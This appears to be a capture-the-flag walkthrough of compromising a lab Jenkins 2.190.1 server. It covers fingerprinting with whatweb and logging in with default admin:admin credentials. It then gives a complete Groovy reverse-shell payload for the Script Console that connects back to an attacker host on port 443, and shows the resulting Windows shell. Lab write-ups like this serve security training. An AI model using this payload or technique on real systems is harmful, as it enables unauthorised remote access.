 At first i ran `whatweb`,  to seek for some versions and technologies used in the website:

```bash
❯ whatweb 10.10.154.52:8080
http://10.10.154.52:8080 [403 Forbidden] Cookies[JSESSIONID.5292b917], Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.z-SNAPSHOT)], HttpOnly[JSESSIONID.5292b917], IP[10.10.154.52], Jenkins[2.190.1], Jetty[9.4.z-SNAPSHOT], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session,x-you-are-authenticated-as,x-you-are-in-group-disabled,x-required-permission,x-permission-implied-by]

http://10.10.154.52:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.5292b917], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(9.4.z-SNAPSHOT)], HttpOnly[JSESSIONID.5292b917], IP[10.10.154.52], Jenkins[2.190.1], Jetty[9.4.z-SNAPSHOT], PasswordField[j_password], Script[text/javascript], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

This seems more like an exploitable website, we can see that we are facing a **Jenkins** app (**v2.190.1**).

Let's take a look inside the website, once inside ***http://10.10.154.52:8080***.

![View Desktop](AlfredWebLogin.png)

We are facing a login page, the first thing i always do at login forms, is try some default credentials manually, in this case the developer did not change the default credentials and we can login with `admin:admin`.

![View Desktop](AlfredWebDashboard.png)

Once in the dashboard, **Jenkins** allow authenticated users to run **Groovy scripts**, so we can try to engage a reverse shell, using a **Groovy** payload.

In order to access the field where we can execute **Groovy scripts** we can follow the next steps: **Manage Jenkins** -> **Scripts Console** and we should see a field asking us execute **Groovy scripts**.

![Desktop View](AlfredGroovyScript.png)

We can now set a listener and execute the next **Groovy payload** and we should get a reverse shell.

```bash
String host="10.11.116.52";int port=443;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Set the listener at port **443**, copy the payload into the form and then execute it, we should get a reverse shell.

```bash
❯ rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.116.52] from (UNKNOWN) [10.10.154.52] 49230
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Jenkins>whoami
whoami
alfred\bruce
```

---